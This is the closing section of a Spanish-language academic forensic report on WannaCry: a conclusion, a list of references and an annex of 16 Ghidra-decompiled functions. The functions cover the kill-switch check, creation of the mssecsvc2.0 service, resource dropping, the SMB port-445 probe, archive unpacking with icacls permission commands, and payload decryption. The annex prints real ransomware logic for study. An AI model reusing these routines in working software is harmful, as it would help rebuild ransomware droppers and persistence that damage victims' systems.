Para evaluar el ensayo, el compañero debe poder señalar la dirección de cada afirmación y distinguir llamada, retorno y efecto. Una respuesta correcta puede concluir «no está demostrado con esta selección» y explicar qué evidencia lo resolvería.


## 14. Conclusión práctica

La práctica permite justificar relaciones entre contenedores y cargas, interpretar decisiones de funciones y distinguir solicitudes de operaciones de efectos observados. El análisis más importante no es afirmar que una muestra «hace todo», sino indicar qué condición conduce a cada acción prevista y qué prueba sería necesaria para demostrarla en un equipo.

La documentación queda preparada para nuevas sesiones con el mismo criterio de trazabilidad. Cada ampliación deberá conservar versión, hash, dirección, resultado y límite. Los capítulos siguientes incluyen las transcripciones para estudiar sin abrir muestras; no constituyen una reconstrucción compilable ni instrucciones para lanzar ransomware.

## Referencias de la parte práctica

[NIST SP 800-86] Kent, K., Chevalier, S., Grance, T., y Dang, H. (2006). *Guide to integrating forensic techniques into incident response*. [DOI](https://doi.org/10.6028/NIST.SP.800-86). Capítulo 3 para el método; capítulos 4–6 para fuentes y examen.

[NIST CSF 2.0] National Institute of Standards and Technology. (2024). *The NIST Cybersecurity Framework (CSF) 2.0*. [DOI](https://doi.org/10.6028/NIST.CSWP.29). Códigos del apéndice A. Contexto histórico y restantes referencias en el informe general.

[T1] Microsoft Defender Security Research Team. (2017, 12 de mayo). *WannaCrypt ransomware worm targets out-of-date systems*. [Análisis técnico](https://www.microsoft.com/en-us/security/blog/2017/05/12/wannacrypt-ransomware-worm-targets-out-of-date-systems/). Componentes, kill switch y propagación; no es resultado de ejecución local.

[T3] National Cybersecurity and Communications Integration Center (NCCIC), U.S. Department of Homeland Security. (2017). *WannaCry ransomware* [fact sheet]. [CISA, PDF](https://www.cisa.gov/sites/default/files/FactSheets/NCCIC%20ICS_FactSheet_WannaCry_Ransomware_S508C.pdf). Describe el ransomware y su componente de gusano que explota SMBv1.

[T4] MITRE ATT&CK. (s. f.). *WannaCry, S0366*. [Registro de software relacionado y alias](https://attack.mitre.org/software/S0366/). Consulta: 21/11/2026.

[T5] Szili, D. (2017, 18 de mayo). *PCAP of WannaCry spreading using EternalBlue* [captura enviada desde entorno de prueba]. En B. Duncan, Malware-Traffic-Analysis.net. [Entrada y metadatos](https://www.malware-traffic-analysis.net/2017/05/18/index2.html). No representa tráfico del NHS.

[H1] National Audit Office. (2018, 25 de abril). *Investigation: WannaCry cyber attack and the NHS* (HC 414; revisión del informe de 2017). [PDF](https://www.nao.org.uk/wp-content/uploads/2017/10/Investigation-WannaCry-cyber-attack-and-the-NHS.pdf). Fuente histórica del NHS; no incluye la PCAP externa.

[API1] Microsoft. (s. f.). *InternetOpenUrlA*. [Documentación oficial](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurla). Consulta: 20/11/2026.

[API2] Microsoft. (s. f.). *FindResourceA*. [Documentación oficial](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea). Tipo, identificador y retorno; consulta: 20/11/2026.

[API3] Microsoft. (s. f.). *CreateProcessA*. [Documentación oficial](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa). Creación y límites de finalización; consulta: 20/11/2026.

[API4] Microsoft. (s. f.). *CheckTokenMembership*. [Documentación oficial](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-checktokenmembership). Retorno y parámetro de salida; consulta: 20/11/2026.

[REGISTROS LOCALES] Proyecto académico. (2026, 15 de noviembre). *Exportaciones Ghidra, Listing y manifiestos de extracción*. Referencias y SHA-256 en `trazabilidad.json`. Edición de transcripciones original cotejada por `scripts/verificar_material_equipo.py`. No se atribuyen estos archivos a un hospital.

## Anexo: transcripciones seleccionadas del Decompiler

Los 16 cuerpos siguientes se incorporan desde la edición conservada y se cotejan por SHA-256. Se preservan instrucciones, nombres y comentarios; solo la presentación impresa puede envolver líneas. Los nombres en español y comentarios del analista no son símbolos originales. Los prototipos imperfectos se conservan deliberadamente; las precisiones se explican en cada capítulo.

### 24d004… · 00408140

Nombre en exportación: Comprobar_KillSwitch-00408140.

```c
/* MCP 2026-11-15: compara con NULL el handle de InternetOpenUrlA. La rama NULL llama 00408090. No
   verifica explícitamente HTTP 200. Confirmado con ensamblado; no es observación de una
   ejecución ni evidencia del NHS. */

undefined4 Comprobar_KillSwitch(void)

{
  void *session;
  void *handle;
  int iVar1;
  char *pcVar2;
  char *pcVar3;
  char local_50 [57];
  undefined4 local_17;
  undefined4 local_13;
  undefined4 local_f;
  undefined4 local_b;
  undefined4 local_7;
  undefined2 local_3;
  undefined1 local_1;

  pcVar2 = s_http___www_iuqerfsodp9ifjaposdfj_004313d0;
  pcVar3 = local_50;
  for (iVar1 = 0xe; iVar1 != 0; iVar1 = iVar1 + -1) {
    *(undefined4 *)pcVar3 = *(undefined4 *)pcVar2;
    pcVar2 = pcVar2 + 4;
    pcVar3 = pcVar3 + 4;
  }
  *pcVar3 = *pcVar2;
  local_17 = 0;
  local_13 = 0;
  local_f = 0;
  local_b = 0;
  local_7 = 0;
  local_3 = 0;
  local_1 = 0;
  session = InternetOpenA((char *)0x0,1,(char *)0x0,(char *)0x0,0);
  handle = InternetOpenUrlA(session,local_50,(char *)0x0,0,0x84000000,0);
  if (handle == (void *)0x0) {
    InternetCloseHandle(session);
    InternetCloseHandle((void *)0x0);
    Preparar_Servicio_Y_Carga();
    return 0;
  }
  InternetCloseHandle(session);
  InternetCloseHandle(handle);
  return 0;
}
```

### 24d004… · 00408090

Nombre en exportación: Preparar_Servicio_Y_Carga-00408090.

```c
/* Distribuye las ramas según argumentos. Nombre descriptivo del analista, no símbolo original. */

void Preparar_Servicio_Y_Carga(void)

{
  int *piVar1;
  SC_HANDLE hSCManager;
  SC_HANDLE hSCObject;
  SERVICE_TABLE_ENTRYA SStack_10;
  undefined4 uStack_8;
  undefined4 uStack_4;

  GetModuleFileNameA((HMODULE)0x0,&DAT_0070f760,0x104);
  piVar1 = (int *)__p___argc();
  if (*piVar1 < 2) {
    FUN_00407f20();
    return;
  }
  hSCManager = OpenSCManagerA((LPCSTR)0x0,(LPCSTR)0x0,0xf003f);
  if (hSCManager != (SC_HANDLE)0x0) {
    hSCObject = OpenServiceA(hSCManager,s_mssecsvc2_0_004312fc,0xf01ff);
    if (hSCObject != (SC_HANDLE)0x0) {
      FUN_00407fa0(hSCObject,0x3c);
      CloseServiceHandle(hSCObject);
    }
    CloseServiceHandle(hSCManager);
  }
  SStack_10.lpServiceName = s_mssecsvc2_0_004312fc;
  SStack_10.lpServiceProc = (LPSERVICE_MAIN_FUNCTIONA)&LAB_00408000;
  uStack_8 = 0;
  uStack_4 = 0;
  StartServiceCtrlDispatcherA(&SStack_10);
  return;
}
```

### 24d004… · 00407f20

Nombre en exportación: FUN_00407f20-00407f20.

```c
undefined4 FUN_00407f20(void)

{
  Crear_Servicio_mssecsvc();
  Extraer_Recurso_R_1831();
  return 0;
}
```

### 24d004… · 00407c40

Nombre en exportación: Crear_Servicio_mssecsvc-00407c40.

```c
/* CreateServiceA: mssecsvc2.0, argumento -m security, inicio 2. Comportamiento inferido
   estáticamente; no se generó un evento 7045. */

undefined4 Crear_Servicio_mssecsvc(void)

{
  SC_HANDLE hSCManager;
  SC_HANDLE hService;
  char local_104 [260];

  sprintf(local_104,s__s__m_security_00431330,&DAT_0070f760);
  hSCManager = OpenSCManagerA((LPCSTR)0x0,(LPCSTR)0x0,0xf003f);
  if (hSCManager == (SC_HANDLE)0x0) {
    return 0;
  }
  hService = CreateServiceA(hSCManager,s_mssecsvc2_0_004312fc,
                            s_Microsoft_Security_Center__2_0__S_00431308,0xf01ff,0x10,2,1,local_104,
                            (LPCSTR)0x0,(LPDWORD)0x0,(LPCSTR)0x0,(LPCSTR)0x0,(LPCSTR)0x0);
  if (hService != (SC_HANDLE)0x0) {
    StartServiceA(hService,0,(LPCSTR *)0x0);
    CloseServiceHandle(hService);
  }
  CloseServiceHandle(hSCManager);
  return 0;
}
```

### 24d004… · 00407ce0

Nombre en exportación: Extraer_Recurso_R_1831-00407ce0.

```c
/* FindResourceA ID 0x727, tipo R. El recurso extraído coincide byte a byte por SHA-256 con
   ed01ebfb...; original conservado. */

undefined4 Extraer_Recurso_R_1831(void)

{
  char cVar1;
  HMODULE hModule;
  HRSRC hResInfo;
  HGLOBAL hResData;
  LPVOID pvVar2;
  DWORD DVar3;
  int iVar4;
  uint uVar5;
  uint uVar6;
  char *pcVar7;
  undefined4 *puVar8;
  char *pcVar9;
  char *pcVar10;
  undefined4 uVar11;
  undefined4 uStack_290;
  char *pcStack_28c;
  undefined4 uStack_288;
  undefined4 uStack_284;
  undefined4 uVar12;
  char acStack_23c [52];
  char local_208;
  undefined4 local_207;
  char local_104;
  undefined4 local_103;

  hModule = GetModuleHandleW(u_kernel32_dll_004313b4);
  if (hModule != (HMODULE)0x0) {
    DAT_00431478 = GetProcAddress(hModule,s_CreateProcessA_004313a4);
    DAT_00431458 = GetProcAddress(hModule,s_CreateFileA_00431398);
    DAT_00431460 = GetProcAddress(hModule,s_WriteFile_0043138c);
    DAT_0043144c = GetProcAddress(hModule,s_CloseHandle_00431380);
    if ((((DAT_00431478 != (FARPROC)0x0) && (DAT_00431458 != (FARPROC)0x0)) &&
        (DAT_00431460 != (FARPROC)0x0)) && (DAT_0043144c != (FARPROC)0x0)) {
      hResInfo = FindResourceA((HMODULE)0x0,(LPCSTR)0x727,&DAT_0043137c);
      if (hResInfo != (HRSRC)0x0) {
        hResData = LoadResource((HMODULE)0x0,hResInfo);
        if (hResData != (HGLOBAL)0x0) {
          pvVar2 = LockResource(hResData);
          if (pvVar2 != (LPVOID)0x0) {
            DVar3 = SizeofResource((HMODULE)0x0,hResInfo);
            if (DVar3 != 0) {
              local_208 = '\0';
              puVar8 = &local_207;
              for (iVar4 = 0x40; iVar4 != 0; iVar4 = iVar4 + -1) {
                *puVar8 = 0;
                puVar8 = puVar8 + 1;
              }
              *(undefined2 *)puVar8 = 0;
              *(undefined1 *)((int)puVar8 + 2) = 0;
              local_104 = '\0';
              puVar8 = &local_103;
              for (iVar4 = 0x40; iVar4 != 0; iVar4 = iVar4 + -1) {
                *puVar8 = 0;
                puVar8 = puVar8 + 1;
              }
              *(undefined2 *)puVar8 = 0;
              *(undefined1 *)((int)puVar8 + 2) = 0;
              uStack_284 = 0x407e03;
              sprintf(&local_208,s_C___s__s_00431358);
              sprintf(&local_104,s_C___s_qeriuwjhrf_00431344);
              MoveFileExA(&local_208,&local_104,1);
              uVar12 = 2;
              uStack_284 = 0;
              pcStack_28c = &local_208;
              uStack_288 = 0x40000000;
              uStack_290 = 0x407e49;
              iVar4 = (*DAT_00431458)();
              if (iVar4 != -1) {
                uStack_290 = 0;
                (*DAT_00431460)(iVar4,uVar12,DVar3,acStack_23c + -0x40);
                (*DAT_0043144c)(iVar4);
                pcStack_28c = (char *)0x0;
                uStack_288 = 0;
                uStack_284 = 0;
                pcVar7 = acStack_23c + -0x40;
                for (iVar4 = 0x10; iVar4 != 0; iVar4 = iVar4 + -1) {
                  pcVar7[0] = '\0';
                  pcVar7[1] = '\0';
                  pcVar7[2] = '\0';
                  pcVar7[3] = '\0';
                  pcVar7 = pcVar7 + 4;
                }
                uVar5 = 0xffffffff;
                pcVar7 = (char *)&DAT_00431340;
                do {
                  pcVar10 = pcVar7;
                  if (uVar5 == 0) break;
                  uVar5 = uVar5 - 1;
                  pcVar10 = pcVar7 + 1;
                  cVar1 = *pcVar7;
                  pcVar7 = pcVar10;
                } while (cVar1 != '\0');
                uVar5 = ~uVar5;
                uStack_290 = 0;
                iVar4 = -1;
                pcVar7 = acStack_23c;
                do {
                  pcVar9 = pcVar7;
                  if (iVar4 == 0) break;
                  iVar4 = iVar4 + -1;
                  pcVar9 = pcVar7 + 1;
                  cVar1 = *pcVar7;
                  pcVar7 = pcVar9;
                } while (cVar1 != '\0');
                pcVar7 = pcVar10 + -uVar5;
                pcVar10 = pcVar9 + -1;
                for (uVar6 = uVar5 >> 2; uVar6 != 0; uVar6 = uVar6 - 1) {
                  *(undefined4 *)pcVar10 = *(undefined4 *)pcVar7;
                  pcVar7 = pcVar7 + 4;
                  pcVar10 = pcVar10 + 4;
                }
                for (uVar5 = uVar5 & 3; uVar5 != 0; uVar5 = uVar5 - 1) {
                  *pcVar10 = *pcVar7;
                  pcVar7 = pcVar7 + 1;
                  pcVar10 = pcVar10 + 1;
                }
                uVar11 = 0;
                uVar12 = 0;
                iVar4 = (*DAT_00431478)(0,acStack_23c,0,0,0,0x8000000,0,0,acStack_23c + -0x44,
                                        &uStack_290);
                if (iVar4 != 0) {
                  (*DAT_0043144c)(uVar11);
                  (*DAT_0043144c)(uVar12);
                }
              }
            }
          }
        }
      }
    }
  }
  return 0;
}
```

### 24d004… · 00407480

Nombre en exportación: Comprobar_Conexion_445-00407480.

```c
/* Constante 0x1bd y llamadas WS2_32 por ordinal. No se realizó tráfico SMB. */

undefined4 Comprobar_Conexion_445(undefined4 param_1)

{
  int iVar1;
  undefined4 uVar2;
  undefined2 *puStack_13c;
  undefined4 uStack_138;
  undefined4 uStack_134;
  undefined4 uStack_130;
  undefined4 uStack_12c;
  undefined2 local_120;
  undefined2 local_11e;
  undefined2 uStack_11c;
  undefined2 local_11a;
  undefined2 uStack_118;
  undefined4 local_116;
  undefined2 local_112;
  undefined4 local_110;

  local_11e = 0;
  uStack_118 = 0;
  local_116 = 0;
  uStack_12c = 0x1bd;
  local_112 = 0;
  local_110 = 1;
  uStack_11c = (undefined2)param_1;
  local_11a = (undefined2)((uint)param_1 >> 0x10);
  local_120 = 2;
  uStack_130 = 0x4074c0;
  Ordinal_9();
  uStack_130 = 6;
  uStack_134 = 1;
  uStack_138 = 2;
  puStack_13c = (undefined2 *)0x4074cf;
  iVar1 = Ordinal_23();
  if (iVar1 == -1) {
    return 0;
  }
  puStack_13c = &local_120;
  Ordinal_10(iVar1,0x8004667e);
  uStack_11c = (undefined2)iVar1;
  local_11a = (undefined2)((uint)iVar1 >> 0x10);
  local_120 = 1;
  local_11e = 0;
  Ordinal_4(iVar1,&puStack_13c,0x10);
  uVar2 = Ordinal_18(0,0,&uStack_12c,0,&uStack_134);
  Ordinal_3(iVar1);
  return uVar2;
}
```

### ed01… · 00401dab

Nombre en exportación: Extraer_Paquete_XIA_2058-00401dab.

```c
/* Recurso XIA, ID 0x80a. Extracción estática del ZIP validada por CRC y hashes en manifiesto
   local. */

undefined4 Extraer_Paquete_XIA_2058(HMODULE param_1,undefined4 param_2)

{
  HRSRC hResInfo;
  HGLOBAL hResData;
  LPVOID pvVar1;
  DWORD DVar2;
  int iVar3;
  int iVar4;
  int iVar5;
  char *pcVar6;
  int iVar7;
  int local_130;
  char local_12c [296];

  hResInfo = FindResourceA(param_1,(LPCSTR)0x80a,&DAT_0040f43c);
  if (((hResInfo != (HRSRC)0x0) &&
      (hResData = LoadResource(param_1,hResInfo), hResData != (HGLOBAL)0x0)) &&
     (pvVar1 = LockResource(hResData), pvVar1 != (LPVOID)0x0)) {
    DVar2 = SizeofResource(param_1,hResInfo);
    iVar3 = FUN_004075ad(pvVar1,DVar2,param_2);
    if (iVar3 != 0) {
      local_130 = 0;
      pcVar6 = local_12c;
      for (iVar5 = 0x4a; iVar5 != 0; iVar5 = iVar5 + -1) {
        pcVar6[0] = '\0';
        pcVar6[1] = '\0';
        pcVar6[2] = '\0';
        pcVar6[3] = '\0';
        pcVar6 = pcVar6 + 4;
      }
      FUN_004075c4(iVar3,0xffffffff,&local_130);
      iVar5 = local_130;
      iVar7 = 0;
      if (0 < local_130) {
        do {
          FUN_004075c4(iVar3,iVar7,&local_130);
          iVar4 = strcmp(local_12c,s_c_wnry_0040e010);
          if ((iVar4 != 0) || (DVar2 = GetFileAttributesA(local_12c), DVar2 == 0xffffffff)) {
            FUN_0040763d(iVar3,iVar7,local_12c);
          }
          iVar7 = iVar7 + 1;
        } while (iVar7 < iVar5);
      }
      FUN_00407656(iVar3);
      return 1;
    }
  }
  return 0;
}
```

### ed01… · 00401fe7

Nombre en exportación: Preparar_Paquete_Y_Permisos-00401fe7.

```c
/* Referencias a contraseña interna y comando icacls. No equivale a una captura de ejecución. */

undefined4 Preparar_Paquete_Y_Permisos(void)

{
  int *piVar1;
  DWORD DVar2;
  code *pcVar3;
  int iVar4;
  undefined4 *puVar5;
  char *pcVar6;
  CHAR local_210;
  undefined4 local_20f;
  undefined4 local_8;

  local_210 = DAT_0040f910;
  puVar5 = &local_20f;
  for (iVar4 = 0x81; iVar4 != 0; iVar4 = iVar4 + -1) {
    *puVar5 = 0;
    puVar5 = puVar5 + 1;
  }
  *(undefined2 *)puVar5 = 0;
  *(undefined1 *)((int)puVar5 + 2) = 0;
  GetModuleFileNameA((HMODULE)0x0,&local_210,0x208);
  FUN_00401225(&DAT_0040f8ac);
  piVar1 = (int *)__p___argc();
  if (*piVar1 == 2) {
    pcVar6 = &DAT_0040f538;
    piVar1 = (int *)__p___argv();
    iVar4 = strcmp(*(char **)(*piVar1 + 4),pcVar6);
    if ((iVar4 == 0) && (iVar4 = FUN_00401b5f(0), iVar4 != 0)) {
      CopyFileA(&local_210,s_tasksche_exe_0040f4d8,0);
      DVar2 = GetFileAttributesA(s_tasksche_exe_0040f4d8);
      if ((DVar2 != 0xffffffff) && (iVar4 = FUN_00401f5d(), iVar4 != 0)) {
        return 0;
      }
    }
  }
  pcVar6 = strrchr(&local_210,0x5c);
  if (pcVar6 != (char *)0x0) {
    pcVar6 = strrchr(&local_210,0x5c);
    *pcVar6 = '\0';
  }
  SetCurrentDirectoryA(&local_210);
  FUN_004010fd(1);
  Extraer_Paquete_XIA_2058(0,s_WNcry_2ol7_0040f52c);
  FUN_00401e9e();
  FUN_00401064(s_attrib__h___0040f520,0,0);
  FUN_00401064(s_icacls____grant_Everyone_F__T__C_0040f4fc,0,0);
  iVar4 = FUN_0040170a();
  if (iVar4 != 0) {
    FUN_004012fd();
    iVar4 = FUN_00401437(0,0,0);
    if (iVar4 != 0) {
      local_8 = 0;
      iVar4 = FUN_004014a6(s_t_wnry_0040f4f4,&local_8);
      if (((iVar4 != 0) && (iVar4 = FUN_004021bd(iVar4,local_8), iVar4 != 0)) &&
         (pcVar3 = (code *)FUN_00402924(iVar4,s_TaskStart_0040f4e8), pcVar3 != (code *)0x0)) {
        (*pcVar3)(0,0);
      }
    }
    FUN_0040137a();
  }
  return 0;
}
```

### ed01… · 00401064

Nombre en exportación: FUN_00401064-00401064.

```c
undefined4 FUN_00401064(LPSTR param_1,DWORD param_2,LPDWORD param_3)

{
  BOOL BVar1;
  DWORD DVar2;
  undefined4 uVar3;
  int iVar4;
  LPSTR *ppCVar5;
  _STARTUPINFOA local_58;
  _PROCESS_INFORMATION local_14;

  local_58.cb = 0x44;
  ppCVar5 = &local_58.lpReserved;
  for (iVar4 = 0x10; iVar4 != 0; iVar4 = iVar4 + -1) {
    *ppCVar5 = (LPSTR)0x0;
    ppCVar5 = ppCVar5 + 1;
  }
  local_14.hProcess = (HANDLE)0x0;
  local_14.hThread = (HANDLE)0x0;
  local_14.dwProcessId = 0;
  local_14.dwThreadId = 0;
  uVar3 = 1;
  local_58.wShowWindow = 0;
  local_58.dwFlags = 1;
  BVar1 = CreateProcessA((LPCSTR)0x0,param_1,(LPSECURITY_ATTRIBUTES)0x0,(LPSECURITY_ATTRIBUTES)0x0,0
                         ,0x8000000,(LPVOID)0x0,(LPCSTR)0x0,&local_58,&local_14);
  if (BVar1 == 0) {
    uVar3 = 0;
  }
  else {
    if (param_2 != 0) {
      DVar2 = WaitForSingleObject(local_14.hProcess,param_2);
      if (DVar2 != 0) {
        TerminateProcess(local_14.hProcess,0xffffffff);
      }
      if (param_3 != (LPDWORD)0x0) {
        GetExitCodeProcess(local_14.hProcess,param_3);
      }
    }
    CloseHandle(local_14.hProcess);
    CloseHandle(local_14.hThread);
  }
  return uVar3;
}
```

### ed01… · 004014a6

Nombre en exportación: FUN_004014a6-004014a6.

```c
HGLOBAL __thiscall FUN_004014a6(int param_1,LPCSTR param_2,uint *param_3)

{
  HGLOBAL pvVar1;
  HANDLE hFile;
  int iVar2;
  HGLOBAL pvVar3;
  int local_248 [2];
  undefined1 local_240;
  undefined4 local_23f;
  undefined2 uStack_23b;
  undefined1 uStack_239;
  uint local_238;
  uint local_234;
  undefined1 local_230 [512];
  undefined4 local_30;
  HGLOBAL local_2c;
  LARGE_INTEGER local_28;
  uint local_20 [3];
  void *local_14;
  undefined *puStack_10;
  undefined *puStack_c;
  undefined4 local_8;

  puStack_c = &DAT_004081e0;
  puStack_10 = &DAT_004076f4;
  local_14 = ExceptionList;
  pvVar3 = (HGLOBAL)0x0;
  local_30 = 0;
  local_248[0] = 0;
  local_240 = 0;
  local_23f = 0;
  uStack_23b = 0;
  uStack_239 = 0;
  local_248[1] = 0;
  local_20[0] = 0;
  local_8 = 0;
  ExceptionList = &local_14;
  hFile = CreateFileA(param_2,0x80000000,1,(LPSECURITY_ATTRIBUTES)0x0,3,0,(HANDLE)0x0);
  if (hFile != (HANDLE)0xffffffff) {
    GetFileSizeEx(hFile,&local_28);
    if ((local_28.s.HighPart < 1) && ((local_28.s.HighPart < 0 || (local_28.s.LowPart < 0x6400001)))
       ) {
      iVar2 = (*DAT_0040f880)(hFile,&local_240,8,local_20,0);
      if (iVar2 != 0) {
        iVar2 = memcmp(&local_240,s_WANACRY__0040eb7c,8);
        if (iVar2 == 0) {
          iVar2 = (*DAT_0040f880)(hFile,local_248,4,local_20,0);
          if ((iVar2 != 0) && (local_248[0] == 0x100)) {
            iVar2 = (*DAT_0040f880)(hFile,*(undefined4 *)(param_1 + 0x4c8),0x100,local_20,0);
            if (iVar2 != 0) {
              iVar2 = (*DAT_0040f880)(hFile,local_248 + 1,4,local_20,0);
              if (iVar2 != 0) {
                iVar2 = (*DAT_0040f880)(hFile,&local_238,8,local_20,0);
                if (((iVar2 != 0) && ((int)local_234 < 1)) &&
                   (((int)local_234 < 0 || (local_238 < 0x6400001)))) {
                  iVar2 = FUN_004019e1(*(undefined4 *)(param_1 + 0x4c8),local_248[0],local_230,
                                       &local_30);
                  if (iVar2 != 0) {
                    FUN_00402a76(local_230,PTR_DAT_0040f578,local_30,0x10);
                    local_2c = GlobalAlloc(0,local_238);
                    if (local_2c != (HGLOBAL)0x0) {
                      iVar2 = (*DAT_0040f880)(hFile,*(undefined4 *)(param_1 + 0x4c8),
                                              local_28.s.LowPart,local_20,0);
                      pvVar1 = local_2c;
                      if (((iVar2 != 0) && (local_20[0] != 0)) &&
                         ((0x7fffffff < local_234 ||
                          (((int)local_234 < 1 && (local_238 <= local_20[0])))))) {
                        FUN_00403a77(*(undefined4 *)(param_1 + 0x4c8),local_2c,local_20[0],1);
                        *param_3 = local_238;
                        pvVar3 = pvVar1;
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  local_unwind2(&local_14,0xffffffff);
  ExceptionList = local_14;
  return pvVar3;
}
```

### u.wnry · 00401bb0

Nombre en exportación: FUN_00401bb0-00401bb0.

```c
undefined4 FUN_00401bb0(void)

{
  BOOL BVar1;
  BOOL local_10;
  PSID local_c;
  _SID_IDENTIFIER_AUTHORITY local_8;

  local_8.Value[0] = '\0';
  local_8.Value[1] = '\0';
  local_8.Value[2] = '\0';
  local_8.Value[3] = '\0';
  local_8.Value[4] = '\0';
  local_8.Value[5] = '\x05';
  local_10 = 0;
  BVar1 = AllocateAndInitializeSid(&local_8,'\x02',0x20,0x220,0,0,0,0,0,0,&local_c);
  if (BVar1 == 0) {
    return 0;
  }
  BVar1 = CheckTokenMembership((HANDLE)0x0,local_c,&local_10);
  if (BVar1 == 0) {
    local_10 = 0;
  }
  FreeSid(local_c);
  return local_10;
}
```

### u.wnry · 00401b50

Nombre en exportación: FUN_00401b50-00401b50.

```c
bool __cdecl FUN_00401b50(LPCSTR param_1,LPCSTR param_2,int param_3)

{
  BOOL BVar1;
  int iVar2;
  HWND *ppHVar3;
  SHELLEXECUTEINFOA local_3c;

  ppHVar3 = (HWND *)&local_3c.fMask;
  for (iVar2 = 0xe; iVar2 != 0; iVar2 = iVar2 + -1) {
    *ppHVar3 = (HWND)0x0;
    ppHVar3 = ppHVar3 + 1;
  }
  local_3c.fMask = 0;
  local_3c.lpDirectory = (LPCSTR)0x0;
  local_3c.lpFile = param_1;
  local_3c.nShow = -(uint)(param_3 != 0) & 5;
  local_3c.cbSize = 0x3c;
  local_3c.lpParameters = param_2;
  local_3c.lpVerb = s_runas_0041fdac;
  BVar1 = ShellExecuteExA(&local_3c);
  return (bool)('\x01' - (BVar1 != 1));
}
```

### u.wnry · 00401a90

Nombre en exportación: FUN_00401a90-00401a90.

```c
undefined4 __cdecl FUN_00401a90(LPSTR param_1,DWORD param_2,LPDWORD param_3)

{
  BOOL BVar1;
  DWORD DVar2;
  int iVar3;
  LPSTR *ppCVar4;
  _PROCESS_INFORMATION local_54;
  _STARTUPINFOA local_44;

  local_44.cb = 0x44;
  ppCVar4 = &local_44.lpReserved;
  for (iVar3 = 0x10; iVar3 != 0; iVar3 = iVar3 + -1) {
    *ppCVar4 = (LPSTR)0x0;
    ppCVar4 = ppCVar4 + 1;
  }
  local_54.hThread = (HANDLE)0x0;
  local_54.dwProcessId = 0;
  local_54.dwThreadId = 0;
  local_54.hProcess = (HANDLE)0x0;
  local_44.dwFlags = 1;
  local_44.wShowWindow = 0;
  BVar1 = CreateProcessA((LPCSTR)0x0,param_1,(LPSECURITY_ATTRIBUTES)0x0,(LPSECURITY_ATTRIBUTES)0x0,0
                         ,0x8000000,(LPVOID)0x0,(LPCSTR)0x0,&local_44,&local_54);
  if (BVar1 == 0) {
    return 0;
  }
  if (param_2 != 0) {
    DVar2 = WaitForSingleObject(local_54.hProcess,param_2);
    if (DVar2 != 0) {
      TerminateProcess(local_54.hProcess,0xffffffff);
    }
    if (param_3 != (LPDWORD)0x0) {
      GetExitCodeProcess(local_54.hProcess,param_3);
    }
  }
  CloseHandle(local_54.hProcess);
  CloseHandle(local_54.hThread);
  return 1;
}
```

### ec1383… · 1800011a4

Nombre en exportación: PlayGame-1800011a4.

```c
undefined8 PlayGame(void)

{
                    /* 0x11a4  1  PlayGame */
  sprintf(&DAT_18000d2a0,"C:\\%s\\%s","WINDOWS","mssecsvc.exe");
  Extraer_Recurso_W_101();
  Crear_Proceso_Carga();
  return 0;
}
```

### ec1383… · 180001014

Nombre en exportación: Extraer_Recurso_W_101-180001014.

```c
/* FindResourceA ID 0x65, tipo W. Primer DWORD = tamaño; WriteFile comienza en recurso+4. No hay
   descifrado en esta rutina. */

undefined8 Extraer_Recurso_W_101(void)

{
  DWORD DVar1;
  HRSRC hResInfo;
  HGLOBAL hResData;
  DWORD *pDVar2;
  HANDLE hFile;
  DWORD local_res8 [2];

  hResInfo = FindResourceA(DAT_18000d3a8,(LPCSTR)0x65,"W");
  if ((((hResInfo == (HRSRC)0x0) ||
       (hResData = LoadResource(DAT_18000d3a8,hResInfo), hResData == (HGLOBAL)0x0)) ||
      (pDVar2 = LockResource(hResData), pDVar2 == (DWORD *)0x0)) ||
     (DVar1 = SizeofResource(DAT_18000d3a8,hResInfo), DVar1 == 0)) {
    return 0;
  }
  DVar1 = *pDVar2;
  hFile = CreateFileA(&DAT_18000d2a0,0x40000000,2,(LPSECURITY_ATTRIBUTES)0x0,2,4,(HANDLE)0x0);
  if (hFile != (HANDLE)0xffffffffffffffff) {
    WriteFile(hFile,pDVar2 + 1,DVar1,local_res8,(LPOVERLAPPED)0x0);
    CloseHandle(hFile);
  }
  return 1;
}
```

### ec1383… · 1800010f8

Nombre en exportación: Crear_Proceso_Carga-1800010f8.

```c
/* CreateProcessA sobre ruta global. Comprobación estática; no atribuye un vector de infección
   histórico. */

undefined8 Crear_Proceso_Carga(void)

{
  BOOL BVar1;
  _PROCESS_INFORMATION local_98;
  _STARTUPINFOA local_78;

  local_98.hProcess = (HANDLE)0x0;
  local_98.hThread = (HANDLE)0x0;
  local_98.dwProcessId = 0;
  local_98.dwThreadId = 0;
  FUN_1800011f0(&local_78.lpReserved,0,0x60);
  local_78.cb = 0x68;
  local_78.wShowWindow = 0;
  local_78.dwFlags = 0x81;
  BVar1 = CreateProcessA((LPCSTR)0x0,&DAT_18000d2a0,(LPSECURITY_ATTRIBUTES)0x0,
                         (LPSECURITY_ATTRIBUTES)0x0,0,0x8000000,(LPVOID)0x0,(LPCSTR)0x0,&local_78,
                         &local_98);
  if (BVar1 != 0) {
    CloseHandle(local_98.hThread);
    CloseHandle(local_98.hProcess);
  }
  return 0;
}
```
